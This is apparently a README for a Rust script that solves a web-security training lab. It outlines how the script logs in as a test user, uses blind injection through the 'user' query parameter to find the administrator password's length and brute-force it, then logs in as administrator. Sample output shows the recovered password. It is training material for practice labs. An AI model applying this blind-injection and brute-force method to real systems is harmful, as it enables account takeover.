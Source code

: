 # Hack Steps

1. Fetch the login page
2. Extract the csrf token and session cookie
3. Login as wiener to get a valid session
4. inject payload into 'user' query parametr to determine the length of administrator's password based on conditional responses
5. Modify the payload to brute force the administrator's password
6. Fetch the login page
7. Extract the csrf token and session cookie
8. Login as the administrator
9. Fetch the administrator profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
⟪#⟫ Injection parameter: user
⦗1⦘ Fetching login page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Logging in as wiener to get a valid session.. OK
⦗4⦘ Checking if administrator password length = 3 
⦗4⦘ Checking if administrator password length = 5
                            ................
⦗4⦘ Checking if administrator password length = 8 [ Correct length: 8 ]
⦗5⦘ Brute forcing password.. (25%): j  p    
⦗5⦘ Brute forcing password.. (50%): j  pg  k
                            ................
⦗5⦘ Brute forcing password (100%): jkxpgoek
⦗6⦘ Fetching login page.. OK
⦗7⦘ Extracting the csrf token and session cookie.. OK
⦗8⦘ Logging in as the administrator.. OK
⦗9⦘ Fetching the administrator profile.. OK
🗹 Check your browser, it should be marked now as solved
```
